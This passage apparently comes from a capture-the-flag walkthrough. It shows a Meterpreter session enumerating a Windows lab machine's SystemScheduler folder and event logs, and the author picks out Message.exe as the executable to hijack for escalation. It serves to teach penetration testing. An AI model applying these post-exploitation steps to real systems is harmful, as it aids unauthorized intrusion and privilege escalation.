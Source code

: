 100777/rwxrwxrwx  235936   fil   2019-08-04 07:36:42 -0400  SSAdmin.exe
100777/rwxrwxrwx  731552   fil   2019-08-04 07:36:42 -0400  SSCmd.exe
100777/rwxrwxrwx  456608   fil   2019-08-04 07:36:42 -0400  SSMail.exe
100777/rwxrwxrwx  1633696  fil   2019-08-04 07:36:42 -0400  Scheduler.exe
100777/rwxrwxrwx  491936   fil   2019-08-04 07:36:42 -0400  SendKeysHelper.exe
100777/rwxrwxrwx  437664   fil   2019-08-04 07:36:42 -0400  ShowXY.exe
100777/rwxrwxrwx  439712   fil   2019-08-04 07:36:42 -0400  ShutdownGUI.exe
100666/rw-rw-rw-  785042   fil   2019-08-04 07:36:42 -0400  WSCHEDULER.CHM
100666/rw-rw-rw-  703081   fil   2019-08-04 07:36:42 -0400  WSCHEDULER.HLP
100777/rwxrwxrwx  136096   fil   2019-08-04 07:36:42 -0400  WSCtrl.exe
100777/rwxrwxrwx  68512    fil   2019-08-04 07:36:42 -0400  WSLogon.exe
100666/rw-rw-rw-  33184    fil   2019-08-04 07:36:42 -0400  WSProc.dll
100666/rw-rw-rw-  2026     fil   2019-08-04 07:36:42 -0400  WScheduler.cnt
100777/rwxrwxrwx  331168   fil   2019-08-04 07:36:42 -0400  WScheduler.exe
100777/rwxrwxrwx  98720    fil   2019-08-04 07:36:42 -0400  WService.exe
100666/rw-rw-rw-  54       fil   2019-08-04 07:36:42 -0400  Website.url
100777/rwxrwxrwx  76704    fil   2019-08-04 07:36:42 -0400  WhoAmI.exe
100666/rw-rw-rw-  1150     fil   2019-08-04 07:36:42 -0400  alarmclock.ico
100666/rw-rw-rw-  766      fil   2019-08-04 07:36:42 -0400  clock.ico
100666/rw-rw-rw-  80856    fil   2019-08-04 07:36:42 -0400  ding.wav
100666/rw-rw-rw-  1637972  fil   2019-08-04 07:36:42 -0400  libeay32.dll
100777/rwxrwxrwx  40352    fil   2019-08-04 07:36:42 -0400  sc32.exe
100666/rw-rw-rw-  766      fil   2019-08-04 07:36:42 -0400  schedule.ico
100666/rw-rw-rw-  355446   fil   2019-08-04 07:36:42 -0400  ssleay32.dll
100666/rw-rw-rw-  6999     fil   2019-08-04 07:36:42 -0400  unins000.dat
100777/rwxrwxrwx  722597   fil   2019-08-04 07:36:42 -0400  unins000.exe
100666/rw-rw-rw-  6574     fil   2019-08-04 07:36:42 -0400  whiteclock.ico

#the interesting part here is the message.exe which we are supposed to execute, but first lets look into Events
meterpreter > cd Events
meterpreter > ls
Listing: C:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1926   fil   2019-08-04 18:05:19 -0400  20198415519.INI
100666/rw-rw-rw-  22826  fil   2019-08-04 18:06:01 -0400  20198415519.INI_LOG.txt
100666/rw-rw-rw-  290    fil   2020-10-02 17:50:12 -0400  2020102145012.INI
100666/rw-rw-rw-  185    fil   2022-02-10 17:16:25 -0500  Administrator.flg
100666/rw-rw-rw-  182    fil   2022-02-10 17:15:20 -0500  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2022-02-10 17:16:25 -0500  Scheduler.flg
100666/rw-rw-rw-  448    fil   2019-08-04 07:36:53 -0400  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2022-02-10 17:15:20 -0500  service.flg


#looks like there are some flag files?
meterpreter > cat Administrator.flg
[LatestSessionInfo]
SessionID=1
[Administrator1]
Time=10/02/22 14:46:26
RemoteSession=0
DesktopName=Default
StationName=WinSta0
SessionID=1
ProcessID=872
UserID=Administrator
